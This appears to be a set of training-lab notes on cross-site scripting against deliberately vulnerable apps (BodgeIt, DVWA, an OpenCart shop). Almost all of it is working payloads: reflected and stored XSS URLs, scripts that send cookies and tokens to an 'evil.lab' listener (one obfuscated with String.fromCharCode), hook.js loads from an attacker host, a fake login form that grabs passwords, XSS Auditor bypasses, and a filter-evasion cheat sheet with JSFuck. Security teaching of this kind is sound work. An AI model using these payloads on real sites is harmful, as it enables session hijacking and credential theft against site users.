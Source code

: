 # A3 Cross-Site Scripting (XSS)


## Refelcted

Got `ERR_BLOCKED_BY_XSS_AUDITOR` in your Chrome ? Try the `Iceweasel` in the VM ;]
Or just set `X-XSS-Protection: 0` in burp via `Proxy > Options > Match and Replace`
Or run Chrome/Chromium with `--disable-xss-auditor`

### BodgeIt store

`http://bodgeit.lab/bodgeit/search.jsp?q=%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E`

`http://bodgeit.lab/bodgeit/search.jsp?q=<sCrIpt src='http://evil.lab:3000/hook.js'></ScRipT>`


### DVWA
Try it on `http://dvwa.lab/dvwa/vulnerabilities/xss_r`

GET `http://dvwa.lab/dvwa/vulnerabilities/xss_r/?name=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E#`

```
<script>alert("XSS");</script>
<img src=x onerror=alert(document.cookie)>
```

## Stored


[BodgeIt / registration](http://bodgeit.lab/bodgeit/register.jsp)

`hacker@citadelo.com<scriPt>alert("XSS");</scRipt>`

trigger it 

`http://bodgeit.lab/bodgeit/admin.jsp`


[BodgeIt / Contact](http://bodgeit.lab/bodgeit/contact.jsp)

`<sCriPt>alert(document.cookie);</scRipT>`


priklad

Start a simple HTTP server as a listener

`python -m SimpleHTTPServer 8888`

```
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://evil.lab:8888/?'+document.cookie+'&'+location.search+'"/>';</script><textarea cols="0" rows="0" style="display:none">
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://evil.lab:8888/?'+document.cookie+'"/>';</script><textarea cols="0" rows="0">
```

```
document.getElementById('header').innerHTML+='<img src="http://evil.lab:8888/?'+document.cookie+'&token='+location.search.split('token=')[1].split('&')[0]+'"/>';
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper</textarea><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,104,101,97,100,101,114,39,41,46,105,110,110,101,114,72,84,77,76,43,61,39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,54,46,54,46,54,47,63,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,39,38,116,111,107,101,110,61,39,43,108,111,99,97,116,105,111,110,46,115,101,97,114,99,104,46,115,112,108,105,116,40,39,116,111,107,101,110,61,39,41,91,49,93,46,115,112,108,105,116,40,39,38,39,41,91,48,93,43,39,34,47,62,39,59));</script><textarea cols="0" rows="0">
```

`</textarea><script src=http://evil.lab:3000/hook.js><textarea>`



## DOM based

AwesomeShop

`http://awesome.lab/oc/index.php?route=common/home#default=Slovak`

`http://awesome.lab/oc/index.php?route=common/home#default=%3Cscript%3Ealert%281%29%3C/script%3E`


## XSS demo in my Firefox (password steal)

```
http://awesome.lab/oc/index.php?route=product/search&search=<h1>Hacked</h1>
http://awesome.lab/oc/index.php?route=product/search&search=<script>alert(1)</script>
http://awesome.lab/oc/index.php?route=product/search&search=<form id=x method=post><input type=text name=email><input type=password name=password></form><script>setTimeout(function(){alert(x[0].value%2b/ : /.source%2bx[1].value)},100);</script>
```

## XSS demo in my Chrome (XSS Auditor bypass)

```
http://awesome.lab/oc/index.php?route=product/search&search=<xxx class=fancybox data-fancybox-start=1 data-fancybox-type=html data-fancybox-href="%26lt;script>alert(2);%26lt;/script>">
http://awesome.lab/oc/index.php?route=product/search&search=<form id=x method=post><input type=text name=email><input type=password name=password></form><xxx class=fancybox data-fancybox-start=1 data-fancybox-type=html data-fancybox-href="%26lt;script>setTimeout(function(){alert(x[0].value%2b/ : /.source%2bx[1].value)},3000);%26lt;/script>">
```    


### Prezentacia

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<svg/onload=alert(’XSS')>

```


JSFuck
```
<script>
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
</script>

```


